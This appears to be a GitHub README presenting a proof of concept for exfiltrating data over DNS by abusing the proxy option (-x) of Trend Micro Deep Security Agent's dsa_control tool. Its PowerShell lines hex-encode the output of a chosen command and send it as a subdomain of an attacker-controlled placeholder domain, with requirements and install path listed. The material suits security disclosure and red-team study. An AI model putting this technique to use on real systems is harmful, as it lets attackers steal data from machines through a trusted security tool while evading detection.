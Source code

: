 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool

An interesting way of using the `dsa_control` CLI tool, included in `Trend Micro's Deep Security Agent (DSA)` solution, specifically its `-x` proxy feature, is that an actor can "abuse" it to make the tool resolve a given domain with out breaking the existing DSA configuration. This could allow data to be exfiltrated using a legitimate tool.

⚠️NOTE: Using the `-x` proxy option may interrupt communication between the specific agent and Trend Cloud One.

Requirements:
- Administrative privileges
- Trend Micro Deep Security Agent Installed

dsa_control path: (default)
- `C:\Program Files\Trend Micro\Deep Security Agent\`


## Trend Micro Configuration
![alt text](assets/3.png)


## POC
```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$cmd.<domain>:443/"
```

## Example
![alt text](assets/2.PNG)

![alt text](assets/1.png)


